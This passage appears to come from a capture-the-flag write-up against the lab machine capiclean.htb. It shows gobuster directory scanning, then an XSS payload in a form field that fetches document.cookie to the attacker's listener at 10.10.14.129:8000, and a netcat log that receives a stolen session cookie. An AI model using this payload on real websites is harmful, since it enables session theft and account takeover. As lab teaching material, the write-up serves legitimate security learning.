 ```
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 2106]
/logout               (Status: 302) [Size: 189] [--> /]
/about                (Status: 200) [Size: 5267]
/services             (Status: 200) [Size: 8592]
/.                    (Status: 200) [Size: 16697]
/dashboard            (Status: 302) [Size: 189] [--> /]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/choose               (Status: 200) [Size: 6084]
Progress: 38267 / 38268 (100.00%)
===============================================================
Finished
===============================================================
```

#### Exploiting XSS

```
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://capiclean.htb/quote
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://capiclean.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

service=<img+src%3dx+onerror%3d"fetch('http%3a//10.10.14.129%3a8000/'+%2b+document.cookie)%3b">&email=root%40tobaka.rocks
```

```
┌─[tobaka@parrot]─[~/ctf/htb]
└──╼ $nc -lnvp 8000
listening on [any] 8000 ...
connect to [10.10.14.129] from (UNKNOWN) [10.10.11.12] 50934
GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZmN2Bw.zfosHdPl8Wy1DAApSap4rfEx0xQ HTTP/1.1
Host: 10.10.14.129:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
